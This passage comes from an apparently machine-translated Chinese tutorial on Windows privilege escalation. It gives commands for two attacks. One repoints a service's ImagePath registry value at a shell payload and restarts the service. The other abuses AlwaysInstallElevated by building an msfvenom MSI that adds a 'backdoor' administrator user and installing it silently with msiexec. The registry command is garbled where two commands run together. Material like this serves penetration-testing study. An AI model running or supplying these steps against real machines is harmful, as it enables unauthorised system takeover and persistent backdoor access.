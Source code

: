 将注册表的`ImagePath`键修改为您的有效负载路径，并重新启动服务。

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\Temp\shell.exe /fsc start regsvc
```

## 始终安装高架

Windows 可以通过 AlwaysInstallElevated 组策略允许低权限用户使用系统权限安装 Microsoft Windows Installer 包(MSI)。

![](img/0d5cf7c5b3f1d66ca2530858f340608c.png)

以`msi`格式生成`msfvenom` 有效载荷。

![](img/6be38237edf7ff6a5d06079e93c88c65.png)

`msfvenom -p windows/adduser USER=backdoor PASS=Pass@1234 -f msi -o setup.msi`

使用以下工具安装有效负载

```
msiexec /quiet /qn /i C:\Windows\Temp\setup.msi
```

![](img/f4d7aacfe3d94fe589a645199a26e330.png)
